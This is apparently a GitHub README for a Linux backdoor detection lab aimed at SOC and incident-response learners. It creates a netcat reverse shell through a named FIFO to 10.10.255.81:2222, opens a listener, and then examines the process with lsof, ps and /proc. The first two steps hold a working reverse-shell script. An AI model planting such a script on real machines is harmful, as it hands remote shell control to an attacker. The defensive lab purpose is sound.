




# Linux Backdoor Detection & Analysis Lab

> A simple yet effective hands-on lab to simulate a reverse shell backdoor in Linux and analyze its behavior using built-in forensic and monitoring commands. This lab is extremely useful for SOC Analysts, Incident Responders, and Blue Team professionals.

---

## Objective

- Simulate a backdoor using `netcat` and a custom bash script.
- Analyze the behavior of the spawned process.
- Investigate open connections, file descriptors, and process-level artifacts.

---

## Environment

- **OS**: Kali Linux (Cloud Installation)
- **Tools Used**: `nc`, `lsof`, `ps`, `/proc`, `strings`

---

## Step-by-Step Walkthrough

### 1. Create the Backdoor Script

```bash
echo -e '#!/bin/bash\nbackpipe=/root/backpipe\nrm -f $backpipe\nmkfifo $backpipe\ncat $backpipe | /bin/bash -i 2>&1 | nc 10.10.255.81 2222 > $backpipe' > backpipe
chmod +x backpipe
./backpipe
```

 

---

### 2. Connect to Backdoor from Attacker

```bash
nc -lvp 2222
```

You now have reverse shell access.

---

### 3. Analyze Network Connections

```bash
lsof -i -P
lsof -p <PID>
```

 

---

### 4. Check Process Status

```bash
ps aux
```

 

---

### 5. Investigate Process Files in `/proc/<pid>/`

```bash
cd /proc/<pid>/
ls
strings ./exe | less
```

 

---

##  Key Observations

- The `nc` process is tied to an open TCP connection.
- A named FIFO (`backpipe`) is used to send and receive commands.
- Forensic commands like `lsof`, `ps`, and `/proc` provide key visibility.

---

##  Takeaways

- Reverse shells using `nc` are still widely used for persistence and lateral movement.
- Always monitor for suspicious named pipes and outbound `nc` connections.
- Combining system commands gives deep insight without requiring EDR/XDR.

---

##  Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
 [LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

##  License

This project is open-sourced under the MIT License.